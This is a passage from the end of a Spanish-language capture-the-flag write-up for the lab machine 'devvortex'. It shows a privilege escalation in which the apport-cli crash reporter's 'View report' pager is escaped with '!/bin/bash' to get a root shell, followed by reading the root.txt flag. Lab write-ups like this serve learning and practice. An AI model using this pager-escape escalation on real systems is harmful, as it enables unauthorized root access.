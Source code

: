 ```

Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

...dpkg-query: no packages found matching xorg
...................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
```
Cuando termine el proceso veremos unos " : " al final, es entonces cuando tendremos que indicarle que queremos usar la bash escribiendo el comando 

```
!/bin/bash
```
y Estaremos en ROOT!
```
root@devvortex:/home/logan# cd ..
root@devvortex:/home# ls
logan
root@devvortex:/home# cd ..
root@devvortex:/# ls
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@devvortex:/# cd root
root@devvortex:~# ls
root.txt
root@devvortex:~# cat root.txt
25d8433417d6a35802076badf2ba1f13
root@devvortex:~# 
```
Y hasta aqui mi primera writeup de la maquina devvortex! Ha sido un placer ser root de esta fantasttica maquina!
